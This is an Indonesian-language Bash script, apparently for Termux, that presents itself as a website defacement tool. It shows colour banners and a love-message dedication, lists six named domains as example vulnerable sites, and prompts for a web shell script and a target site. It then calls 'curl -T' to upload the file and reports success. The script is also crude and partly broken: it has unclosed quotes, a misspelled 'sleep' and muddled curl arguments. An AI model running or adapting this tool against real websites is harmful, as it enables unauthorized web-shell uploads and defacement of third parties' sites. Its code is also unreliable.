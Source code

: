 #usr/bin/bash

clear
bi='\033[34;1m' #biru
i='\033[32;1m' #ijo
pur='\033[35;1m' #purple 
cy='\033[36;1m' #cyan
me='\033[31;1m' #merah
pu='\033[37;1m' #putih
ku='\033[33;1m' #kuning

echo $me"  ║██  ❤️❤️  ❤️❤️  ██   ██    
echo $me"  ║██  ❤️  ❤️  ❤️  ██   ██
echo $me"  ║██    ❤️  ❤️    ██   ██
echo $me"  ║██      ❤️      ███████
echo $me" 
slep 0.5
echo $pu"  ████  ███    █   █   █   █ 
echo $pu"  ██  ██  ██  █ █   █ █   █ █
echo $pu"  ██      ██  █❤️█   █║   █❤️█
echo $pu"  ██      ██  █  █   █║   █  █
echo $pu"
echo ""
echo ""
echo ""
echo "Script Ini diperbarui Stah ^_^" | lolcat
sleep 1
echo $ku"Pastikan Punya script buat Deface ( shell ) stah ^_^"
echo $i"——————————————————————————————————————————————————————————"
echo $pur"              [•]DARI : IPAN ADITIA
echo $ku"             [•]KEPADA : MAYA LESTARI
echo $i"             [•] PESAN  : AKU SAYANG KAMU
echo $me"      [•]ISI KANDUNGAN : AWOKAWOKAOWK ❤️
echo $i"——————————————————————————————————————————————————————————"
sleep 2
echo ""
echo ""
echo ""
echo $i"              CONTOH WEB VULN STAH ^_^"
echo $pur"         [1]http://scnc.co.za "
echo $pur"         [2]http://handj.co.za"
echo $pur"         [3]http://lwrm.co.za"
echo $pur"         [4]http://mc3qs.com"
echo $pur"         [5]http://mpark.co.za"
echo $pur"         [6]http://8x8.co.za"
echo ""
echo ""
echo " Udah asw jangan banyak - banyak ^_^" | lolcat
echo $pur"Aing Noob stah ^_^"
read -p "Masukkan Script defacenya ( shell )  :" script;
read -p "Masukkan web yg mau di deface        :" web;
echo "SEDANG MENDEFACE STAH ^_^" | lolcat
echo $i"L"$ku"O"$me"A"$pur"D"$cy"I"$ku"N"$i"G"
termux-setup-storage
curl -T /sdcard/$web $script
echo "Berhasil Di Deface ea :v" | lolcat
echo $i"Buka Hasilnya Disini Stah : $web/ $script"

